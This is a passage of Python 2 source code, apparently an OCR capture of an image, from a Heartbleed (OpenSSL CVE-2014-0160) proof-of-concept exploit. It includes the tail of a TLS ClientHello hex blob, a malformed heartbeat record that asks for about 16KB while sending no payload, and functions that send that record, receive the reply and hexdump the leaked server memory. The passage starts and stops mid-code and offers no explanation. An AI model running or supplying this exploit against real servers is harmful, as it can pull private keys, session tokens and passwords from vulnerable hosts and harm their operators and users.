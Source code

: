 ```python
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time() 
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
        

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
```